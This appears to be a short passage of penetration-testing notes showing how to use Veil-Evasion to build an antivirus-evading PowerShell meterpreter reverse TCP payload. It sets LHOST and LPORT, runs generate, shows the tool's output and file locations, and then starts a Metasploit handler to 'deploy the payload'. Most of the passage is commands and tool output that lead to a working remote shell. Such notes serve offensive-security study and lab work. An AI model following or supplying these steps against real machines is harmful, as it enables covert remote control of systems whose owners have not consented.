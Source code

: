 ```
	exit        	Completely exit Veil
	generate    	Generate the payload
	options     	Show the shellcode's options
	set         	Set shellcode option
```
+ Will then set the required LPORT and LHOST information with `set LPORT <PORT>` and `set LHOST <IP>`
+ Then will run `generate` to get the payload:
```
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 [>] Please enter the base name for output files (default is payload): payload
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 [*] Language: powershell
 [*] Payload Module: powershell/meterpreter/rev_tcp
 [*] PowerShell doesn't compile, so you just get text :)
 [*] Source code written to: /var/lib/veil/output/source/payload1.bat
 [*] Metasploit Resource file written to: /var/lib/veil/output/handlers/payload1.rc

Hit enter to continue...
```
+ After setting the payload name, can retrieve the Metasploit Resource file and Source code in the specified location 
+ To start the handler, will run `msfconsole` and then `resource <METASPLOIT_RESOURCE_FILE>`
+ Can now deploy the payload via the scenario that is available 